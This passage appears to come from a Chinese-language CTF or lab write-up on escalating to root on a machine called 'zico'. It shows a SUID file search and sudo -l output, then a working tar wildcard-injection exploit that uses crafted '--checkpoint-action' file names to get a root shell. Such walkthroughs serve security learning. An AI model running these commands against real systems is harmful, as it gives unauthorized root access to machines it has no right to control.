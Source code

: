 ## 提权到 root

找 suid 权限的文件

```
find / -perm -u=s -type f 2>/dev/null
```

查找当前用户能用 root 身份执行什么命令

```bash
zico@zico:~/wordpress$ sudo -l
sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```

tar 和 zip 命令能以 sudo 运行时，都能提权的[tar命令提权 - 隐念笎 - 博客园 (cnblogs.com)](https://www.cnblogs.com/zlgxzswjy/p/15210570.html)

```bash
zico@zico:~/wordpress$ cd /tmp
cd /tmp
zico@zico:/tmp$ echo "/bin/bash" > shell.sh
echo "/bin/bash" > shell.sh
zico@zico:/tmp$ echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint-action=exec=sh shell.sh"
zico@zico:/tmp$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
zico@zico:/tmp$ sudo tar cf archive.tar *
sudo tar cf archive.tar *
root@zico:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
```

<img src=".\图片\Snipaste_2023-06-28_13-06-39.png" alt="Snipaste_2023-06-28_13-06-39" style="zoom:80%;" />
